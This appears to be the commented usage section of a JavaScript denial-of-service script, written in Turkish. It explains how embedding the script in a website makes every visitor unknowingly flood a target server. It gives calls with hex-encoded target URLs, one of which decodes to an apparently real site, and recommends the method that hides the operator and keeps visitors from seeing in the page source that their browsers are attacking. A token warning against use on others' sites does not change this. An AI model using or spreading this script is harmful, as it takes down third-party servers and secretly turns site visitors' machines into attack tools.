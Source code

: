   // Başkalarının sitesinde kullanmayınız kendi sitenize saldırıp test edip önlemler üretmeyi deneyiniz.<br><br>
  
  Not: Bu scripti eklediğiniz size ait web sitesine giren her kullanıcı hedef siteye saldırır, yani sitenizde şuanda 1000 online olduğunu var sayarsak, karşıdaki sunucu 16gb lık bir ram ile muhtemelen cevap veremeyecek hale gelecek ve sitesi çalışmayacaktır. <br><br>
  Tercihiniz aşağıdaki 3. yöntem önerilir. !!! <br>
  
  // şimdilik kullanım dışı, image file atak <br><br>
  //ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','base64'); // base64 file<br><br>
  //ImageUrlToBase64('https://www.example-site.com/index.php?p=','https://your-image-url.com/android-chrome-512x512.png','file'); // direk file<br><br>
  // note: istekler karşılıksız olsada atak yapmaktadır.!!!<br>
  // şimdilik kullanım dışı, image file atak.<br><br>
 
 

  // # Kullanıma uygun örnekler<br><br>

  // 1-<br>
  //tek('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür.<br><br>


  // 2-<br>
  //cok('68747470733a2f2f7777772e6566746f746f656b7370657274697a2e636f6d2f696e6465782e7068703f703d');<br><br>
  // bu atak kullandıldığında, yine saldıran kişi ziyaretçi ip adresi olsada, ziyaretçinin hedefe saldırdığını ortaya çıkaran origin= ile site adresiniz gözükür. tek() fonksiyonundan farklı karşı tarafa çok daha yüksek byte ile saldırır, fakat bu yavaşlık yaratabiir. tek() kullanımı önerilen örnektir.<br><br><br><br>

  // 3- önerilen yöntem. karşı tarafta Saldıran sadece ziyaretçi ip adresi olarak görünür.<br><br>
  // örnek: site adresi = https://www.yoursitename.com/index.php?q= <br><br>
  // bu adresi str to hex yapınız 68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d
  istek_img('68747470733a2f2f7777772e796f7572736974656e616d652e636f6d2f696e6465782e7068703f713d','1');<br><br>
  // bu saldırı yönteminde site adresiniz asla gözükmez. artı olarka strtohex kullandığınız için ziyaretçi sayfa kaynağını görüntülesede kendi bilgisayarının saldırı amaçlı kullanıldığını fark edemez.<br><br>

  // # Kullanıma uygun örnekler

